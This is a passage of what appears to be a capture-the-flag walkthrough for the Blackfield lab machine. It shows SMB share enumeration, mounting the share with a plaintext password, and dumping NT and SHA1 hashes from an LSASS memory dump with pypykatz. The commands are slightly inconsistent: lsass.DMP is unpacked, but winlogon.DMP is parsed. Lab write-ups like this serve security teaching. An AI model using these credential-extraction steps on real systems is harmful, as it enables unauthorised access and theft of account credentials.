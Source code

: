 This user has read access to the share _forensic_.

## Enumerating SMB Share

There are three directories in the share _forensic_:
```
smbclient -t cifs '//10.10.10.192/forensic' -U audit2020
```

- commands_output
- memory_analysis
- tools

Mounting it locally to make searching easier:
```
mount -t cifs -o 'username=audit2020,password=NewPass1' '//10.10.10.192/forensic' /mnt/blackfield/
```

In the directory _tools_ is software for Forensic collection and analysis:
- sleuthkit-4.8.0-win32
- sysinternals
- volatility

The directory _commands_output_ has outputs of the tools in txt format that may contain sensible information:
Other than one of the users in _domain_admins.txt_ there is no useful information:
```
Members
---------------------------------------
Administrator       Ipwn3dYourCompany
```

The directory _memory_analysis_ has several ZIP files and the file _lsass.zip_ is particularly interesting as the **LSASS process** is responsible for credentials in Windows.
```
unzip lsass.zip
```

It unpacks one file _lsass.DMP_, which is a **LSASS Dump file** that can be read with the Python implementation of **mimikatz** [pypykatz](https://github.com/skelsec/pypykatz):
```
pypykatz lsa minidump winlogon.DMP
```
```
Username: svc_backup
Domain: BLACKFIELD
LM: NA
NT: 9658d1d1dcd9250115e2205d9f48400d
SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
(...)
Username: Administrator
Domain: BLACKFIELD
LM: NA
NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```
